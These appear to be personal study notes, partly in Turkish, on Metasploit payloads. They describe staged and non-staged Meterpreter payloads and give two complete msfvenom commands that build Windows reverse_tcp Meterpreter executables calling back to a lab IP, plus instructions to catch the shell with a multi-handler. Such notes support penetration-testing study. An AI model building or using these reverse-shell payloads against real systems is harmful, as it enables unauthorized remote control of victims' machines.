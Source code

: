 ## Bu yukardakiler STAGED payload'lardır 
### windows/x64/meterpreter/reverse_http 

##### Description : Inject the meterpreter server DLL via the Reflective Dll Injection payload <span style="background:#d4b106">(staged)</span>. Requires Windows XP SP2 or newer.
---
## Non-Staged olanlar
![[Pasted image 20240227115511.png]]

##### Description : Connect back to attacker and spawn a Meterpreter shell. Requires Windows XP SP2 or newer.

---

## linux meterpreter payloads 
![[Pasted image 20240227115855.png]]

![[Pasted image 20240227115951.png]]

---
## Payload Yapılışı
![[Pasted image 20240227120356.png]]
### msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=10.0.2.4 LPORT=1234 -f exe > payloadx86.exe

## İstersen nereye kaydedileceğini de directory vererek kaydedebilirsin
![[Pasted image 20240227120804.png]]
![[Pasted image 20240227121743.png]]
#### Multi handler aç dinlemeyi yap karşı taraf çalıştırınca al meterpreter shell'i

---

 >[!warning] x64 için payload üretirken normal windows/x64 diye devam edecek buna dikkat et
 ![[Pasted image 20240227121230.png]]
### msfvenom -a x64 -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.2.4 LPORT=1234 -f exe > payloadx64.exe


---
